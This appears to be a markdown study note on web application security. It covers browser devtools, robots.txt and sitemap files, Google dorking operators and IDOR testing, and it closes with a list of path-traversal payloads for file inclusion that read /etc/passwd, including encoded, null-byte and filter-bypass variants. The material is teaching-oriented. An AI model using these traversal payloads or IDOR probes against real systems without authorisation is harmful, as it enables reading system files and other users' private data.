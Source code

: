 # Web

## Analyzing a web application

There are different ways to analyze a web application. Sometimes, you could even have access to the source code but in general, at least the client side is available. You can use tools like your browser to inspect it.

### Browser tools

Using the browser it is possible to inspect everything on client side: HTML code, stylesheets, cookies, local storage, Javascript files, public assets, etc.

Some of the most common functions:

- View source: look to the source code of a web page.
- Inspector: inspect elements inside the pages and make changes to them.
- Debugger: inspect and add breakpoint to JS code.
- Network: see all the network requests made.
- Storage: look to local storage and cookies used by the page.

### Common public files

`robots.txt`

It is a file used by a website to define which page a search engine should track and which should not. Sometimes, sensitive paths are placed here to keep them from being tracked.

`sitemap.xml`

It is a list of all the pages that a website wants to be tracked on a search engine

`favicon.ico`

It is the tab icon used for the website. By default, frameworks have their own logo that can be used to recognize them.

### Additional headers

It is possible to look to the headers returned by a web server to find possible useful information.

```
curl -v https://website.com
```

### Google dorking

| Example          | Meaning                            |
| ---------------- | ---------------------------------- |
| site:website.com | filter results by specific website |
| inurl:id         | filters results by word in the URL |
| filetype:pdf     | filters results by file extension  |
| intitle:login    | filters results by word in title   |

Special characters

| Character | Example             | Meaning                                 |
| --------- | ------------------- | --------------------------------------- |
| \*        | site:\*.website.com | any possible alphanumeric strings       |
| -         | -site:website.com   | used before an operator to obtain a not |

## IDOR

IDOR stands for Insecure Direct Object Reference and is a type of vulnerability based on unathorized resource access.

For example, if you can retrieve your profile by going to `/user/1000` you could try to change the id with other numbers like `/user/1001`.
We have an IDOR if it is possible to access other profiles without authorization.

IDORs attacks are not always evident:

- data could be encoded with base64 or hashed with MD5 or SHA-1
- a parameter could be hidden
- a server request could have a vulnerable body or param

A good way to check for an IDOR vulnerability is to create two accounts and see if using one of them you can access the other's private data.

## File inclusion

```bash
# simple dot-dot-slash notation
../../../etc/passwd

# ascii notation
%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

# truncate string (PHP < 5.3.4) using null byte
../../../etc/passwd0x00
../../../etc/passwd%00
../../../etc/passwd\0

# if validation is done over the first 'etc' match and right after string
../../../etc/../etc/passwd

# if '/etc/passwd' is filtered
../../../etc/./passwd

# if '../' is removed
....//....//....//....//....//etc/passwd
```
